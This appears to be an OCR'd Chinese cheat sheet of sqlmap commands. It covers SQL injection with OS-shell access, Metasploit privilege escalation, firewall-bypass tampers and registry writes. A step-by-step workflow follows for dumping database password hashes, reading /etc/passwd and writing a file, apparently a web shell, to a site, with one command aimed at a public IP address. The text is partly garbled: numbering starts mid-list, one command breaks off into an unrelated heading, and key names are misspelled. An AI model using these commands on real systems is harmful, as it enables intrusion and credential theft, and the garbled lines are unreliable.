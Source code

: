 ```plain
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"


简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
执行：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --privileges
这种比较难判断是不是管理员权限。
```
